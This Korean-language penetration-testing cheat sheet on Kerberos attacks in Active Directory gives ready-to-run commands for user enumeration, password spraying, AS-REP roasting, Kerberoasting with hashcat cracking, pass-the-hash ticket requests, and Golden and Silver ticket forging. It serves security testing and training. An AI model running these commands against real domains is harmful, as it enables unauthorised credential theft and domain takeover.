

# Kerberos (88)

AD 환경의 핵심 인증 프로토콜. 상세 AD 공격 기법은 [AD 환경 공격](../ad/ad-environment.md) 참고.



---

## 열거

```bash
# Kerberos 서비스 확인
nmap -sV -p 88 TARGET

# 도메인 정보 추출
nmap --script=krb5-enum-users --script-args krb5-enum-users.realm=DOMAIN.LOCAL -p 88 TARGET
```

---

## 사용자 열거

Kerberos Pre-Authentication 응답을 이용한 유효 사용자 확인. **계정 잠금 없이** 사용자 존재 여부를 확인할 수 있다.

```bash
# kerbrute
kerbrute userenum -d domain.local --dc DC_IP users.txt

# nmap
nmap --script=krb5-enum-users --script-args krb5-enum-users.realm=DOMAIN.LOCAL,userdb=users.txt -p 88 DC_IP
```

---

## Password Spray

```bash
# kerbrute (Kerberos 기반이므로 잠금 임계값에 주의)
kerbrute passwordspray -d domain.local --dc DC_IP users.txt 'Password1!'

# 여러 비밀번호
kerbrute bruteuser -d domain.local --dc DC_IP passwords.txt username
```

---

## AS-REP Roasting

Pre-Authentication이 비활성화된 계정의 TGT를 요청하여 오프라인 cracking.

```bash
# 계정 목록이 있을 때
impacket-GetNPUsers DOMAIN/ -usersfile users.txt -no-pass -dc-ip DC_IP -format hashcat

# 인증 정보가 있을 때 (자동 탐색)
impacket-GetNPUsers DOMAIN/user:pass -dc-ip DC_IP -request

# nxc
nxc ldap DC_IP -u user -p pass --asreproast

# cracking (hashcat mode 18200)
hashcat -m 18200 asrep_hashes.txt wordlist.txt
```

---

## Kerberoasting

SPN이 설정된 서비스 계정의 TGS를 요청하여 오프라인 cracking.

```bash
# Impacket
impacket-GetUserSPNs DOMAIN/user:pass -dc-ip DC_IP -request

# nxc
nxc ldap DC_IP -u user -p pass --kerberoasting

# Rubeus (Windows)
.\Rubeus.exe kerberoast /outfile:hashes.txt

# cracking (hashcat mode 13100)
hashcat -m 13100 tgs_hashes.txt wordlist.txt
```

---

## 티켓 관리

```ini
# /etc/krb5.conf 설정
[libdefaults]
    default_realm = DOMAIN.LOCAL
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    DOMAIN.LOCAL = {
        kdc = DC_IP
        admin_server = DC_IP
    }
```

```bash
# TGT 요청
impacket-getTGT DOMAIN/user:pass -dc-ip DC_IP
impacket-getTGT DOMAIN/user -hashes :NTHASH -dc-ip DC_IP

# 환경 변수 설정
export KRB5CCNAME=/path/to/user.ccache

# 티켓 확인
klist

# 시간 동기화 (중요!)
sudo ntpdate DC_IP
# 또는
sudo rdate -n DC_IP
```

---

## Golden / Silver Ticket

```bash
# Golden Ticket (krbtgt hash 필요)
impacket-ticketer -nthash KRBTGT_HASH -domain-sid S-1-5-21-... -domain domain.local administrator
export KRB5CCNAME=administrator.ccache

# Silver Ticket (서비스 계정 hash 필요)
impacket-ticketer -nthash SVC_HASH -domain-sid S-1-5-21-... -domain domain.local -spn cifs/target.domain.local administrator
export KRB5CCNAME=administrator.ccache
```

---

## Delegation 공격 개요

| 유형 | 조건 | 공격 |
|------|------|------|
| Unconstrained | TrustedForDelegation | TGT 탈취, Printer Bug |
| Constrained | msDS-AllowedToDelegateTo | S4U2Self + S4U2Proxy |
| RBCD | msDS-AllowedToActOnBehalfOfOtherIdentity | 머신 계정 생성 → RBCD 설정 |

상세 내용은 [AD 환경 공격 - Delegation](../ad/ad-environment.md#kerberos-delegation-공격) 참고.
